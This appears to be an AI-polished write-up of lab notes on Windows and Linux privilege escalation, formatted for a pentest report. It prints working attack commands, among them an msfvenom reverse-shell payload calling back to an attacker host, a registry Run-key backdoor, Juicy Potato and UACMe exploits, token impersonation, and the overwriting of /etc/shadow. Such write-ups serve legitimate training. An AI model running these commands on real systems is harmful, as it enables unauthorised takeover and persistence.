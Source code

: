 Here is a **refined and professional write-up** of your privilege escalation notes. You can use this as documentation or part of a penetration test report or GitHub/LinkedIn write-up.

---

# **Privilege Escalation Techniques - Windows & Linux**

## **1. Privilege Escalation with PowerUp**

With a Meterpreter session on a Windows target, we imported PowerUp.ps1 and ran `Invoke-AllChecks`. PowerUp identified misconfigurations, allowing us to escalate privileges. Two key methods demonstrated:

* **HTA Exploit**: Hosted an HTA payload via `msfvenom` and `web_delivery`, executed it on the victim system, resulting in a Meterpreter session with admin rights.
* **PsExec**: Used Metasploit's `exploit/windows/smb/psexec` with stolen admin credentials to gain a privileged Meterpreter session.

---

## **2. Privilege Escalation with PrivescCheck**

We used [PrivescCheck](https://github.com/itm4n/PrivescCheck) to scan the system. The report revealed plaintext credentials stored in the **WinLogon registry key**. After extracting credentials, we used `runas.exe` and `psexec` for privilege escalation.

---

## **3. Unattended Installation File**

Identified `Unattend.xml` via PowerUp. Extracted the base64-encoded password and decoded it:

```bash
echo "QWRtaW5AMTIz" | base64 -d
```

Result: `Admin@123`

Used `runas.exe` to escalate privileges:

```powershell
runas.exe /user:administrator cmd
```

Also reused credentials with `psexec` in Metasploit to gain privileged shell access.

---

## **4. Windows Credential Manager**

Used:

```cmd
cmdkey /list
```

No credentials were listed, but escalation was still possible with:

```powershell
runas.exe /savecred /user:administrator cmd
```

Also demonstrated creating a reverse shell payload via `msfvenom` and using PowerShell Web Delivery to open a Meterpreter session.

---

## **5. PowerShell History**

Inspected:

```
C:\Users\student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

Discovered previously entered PowerShell commands, including potential credentials and scripts that assisted in lateral movement or escalation.

---

## **6. Exploiting Insecure Service Permissions**

PowerUp identified that `FileZilla Server.exe` was writable by the student user. Replaced the binary with a malicious payload using:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=4444 -f exe > "FileZilla Server.exe"
```

Downloaded and replaced the service binary. Upon restarting the service, a SYSTEM Meterpreter session was received.

---

## **7. Registry AutoRuns Privilege Escalation**

Found writable registry key at:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Created an AutoRun key pointing to a Meterpreter payload:

```powershell
New-ItemProperty -Path "HKLM:\...\Run" -Name "hacker" -Value "C:\Users\student\Desktop\tool\program.exe"
```

Upon logout and login, the payload executed with elevated privileges.

---

## **8. Access Token Impersonation**

Used `incognito` in Meterpreter:

```powershell
load incognito
list_tokens -u
impersonate_token DOMAIN\Admin
getuid
```

Successfully impersonated a privileged token and operated with elevated access.

---

## **9. Juicy Potato Exploit (SeImpersonatePrivilege)**

Confirmed token privileges:

```powershell
whoami /priv
```

Uploaded `JuicyPotato.exe` and a reverse shell payload. Executed:

```cmd
JuicyPotato.exe -l 4444 -p C:\Users\Public\backdoor.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

Resulted in SYSTEM-level shell.

---

## **10. Bypassing UAC with UACMe**

Uploaded `akagi64.exe` (UACMe), identified method 62 (`fodhelper.exe`) for bypass:

```cmd
akagi64.exe 62 C:\Users\Public\payload.exe
```

Executed payload with auto-elevated privileges, bypassing UAC prompts.

---

## **11. DLL Hijacking**

Using Process Monitor, identified missing DLLs. Created a malicious DLL with:

```bash
x86_64-w64-mingw32-gcc -shared -o example.dll malicious.c
```

Placed DLL in the application's directory. When the app was launched, our DLL was loaded, executing the payload with elevated privileges.

---

# **Linux Privilege Escalation Techniques**

## **1. Locally Stored Credentials**

Searched config files in `/var/www/html`:

```bash
grep -nr "db_user" .
```

Found credentials in `database.inc.php`, then switched to root with:

```bash
su
```

---

## **2. Misconfigured File Permissions**

Checked for world-writable files:

```bash
find / -not -type l -perm -o+w
```

Found `/etc/shadow` writable. Generated password:

```bash
openssl passwd -1 -salt abc password
```

Modified `/etc/shadow` to include this hash for root. Logged in as root via `su`.

---

## **3. Exploiting SUID Binaries**

Identified `vim.tiny` with SUID:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Used `vim.tiny` to edit `/etc/sudoers`, granting the student user passwordless sudo access.

---

# Summary

These techniques demonstrate a wide range of **Windows and Linux privilege escalation** methods, including:

* Misconfigurations (e.g., writable services, registry, shadow files)
* Exploitation of features (e.g., SeImpersonate, SUID)
* Token impersonation and UAC bypasses
* Analysis tools: PowerUp, PrivescCheck, Autoruns, ProcMon
* Custom payloads using `msfvenom` and Metasploit

These techniques are essential for internal network pivoting, post-exploitation access, and realistic red team operations.

---
